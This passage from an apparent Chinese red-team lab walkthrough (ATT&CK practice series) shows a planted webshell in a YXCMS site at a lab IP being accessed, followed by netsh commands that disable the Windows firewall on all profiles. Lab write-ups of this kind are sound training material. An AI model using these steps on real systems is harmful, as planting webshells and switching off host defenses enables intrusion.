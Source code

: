 访问webshell.php

http://10.9.75.6/yxcms/protected/apps/default/view/default/webshell.php

![image-20231116230524622](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231116230524622.png)

### 关闭防火墙

```bash
netsh advfirewall show allprofile state     （显示防火墙）

netsh advfirewall set allprofiles state off （关闭防火墙）
```

![image-20231117132031804](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231117132031804.png)
